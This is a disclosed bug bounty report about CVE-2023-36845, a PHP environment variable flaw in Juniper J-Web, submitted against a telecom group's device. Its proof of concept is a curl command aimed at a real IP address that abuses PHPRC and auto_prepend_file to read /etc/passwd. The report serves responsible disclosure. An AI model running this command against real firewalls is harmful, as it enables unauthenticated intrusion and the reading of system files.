# Remote code execution [CVE-2023-36845]

## Report Details
- **Report ID**: 2182202
- **URL**: https://hackerone.com/reports/2182202
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2023-09-26T16:09:37.071Z
- **Disclosed**: 2024-10-09T14:19:47.701Z

## Reporter
- **Username**: m4lc0lmx
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
### CVE-2023-36845

A PHP External Variable Modification vulnerability in J-Web of Juniper Networks Junos OS on EX Series and SRX Series allows an unauthenticated, network-based attacker to control certain, important environments variables. Utilizing a crafted request an attacker is able to modify a certain PHP environment variable leading to partial loss of integrity, 

## POC :

with curl 
41.205.30.222 = host-41.205.30.222.mtn.cm
```
curl -sk "https://41.205.30.222/?PHPRC=/dev/fd/0" -X POST -d 'auto_prepend_file="/etc/passwd"'

```

{F2727487}

## Impact

CVE-2023-36845 that allows an unauthenticated and remote attacker to execute arbitrary code on Juniper firewalls without creating a file on the system.

## Attachments
- Screenshot_2023-09-26_170807.png
